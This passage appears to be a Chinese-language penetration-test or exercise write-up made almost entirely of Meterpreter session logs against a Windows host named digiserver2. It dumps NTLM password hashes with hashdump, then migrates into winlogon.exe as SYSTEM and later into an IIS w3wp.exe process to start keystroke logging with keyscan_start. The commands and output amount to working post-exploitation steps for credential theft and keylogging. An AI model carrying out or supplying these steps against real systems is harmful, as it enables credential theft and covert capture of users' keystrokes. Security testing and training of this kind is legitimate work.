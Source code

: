 目標防守後Hash值
```p
meterpreter > hashdump
digiserver2:500:aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972:::
digiserver22:1016:aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Keylogger
#### 在系統登入頁面層級(migrate到`winlogon.exe`)開始鍵盤側錄
```bash=
meterpreter > ps | winlogon
Filtering on 'winlogon'

Process List
============

 PID    PPID   Name          Arch  Session  User                 Path
 ---    ----   ----          ----  -------  ----                 ----
 508    468    winlogon.exe  x64   1        NT AUTHORITY\SYSTEM  C:\Windows\System32\winlogon.exe
 15896  16220  winlogon.exe  x64   2        NT AUTHORITY\SYSTEM  C:\Windows\System32\winlogon.exe
 21468  21436  winlogon.exe  x64   3        NT AUTHORITY\SYSTEM  C:\Windows\System32\winlogon.exe

meterpreter > migrate 508
[*] Migrating from 36388 to 508...
[*] Migration completed successfully.
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter >
```
#### 在digiserver2使用者層級鍵盤側錄
```bash=
meterpreter > ps

Process List
============

 PID    PPID   Name                  Arch  Session  User                              Path
 ---    ----   ----                  ----  -------  ----                              ----
 0      0      [System Process]
 4      0      System                x64   0
 ...
 C:\Windows\System32\msdtc.exe
 5256   1044   w3wp.exe              x64   0        DIGISERVER2\digiserver2           C:\Windows\System32\inetsrv\w3wp.exe

meterpreter > migrate 5256
[*] Migrating from 35904 to 5256...
[*] Migration completed successfully.
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```
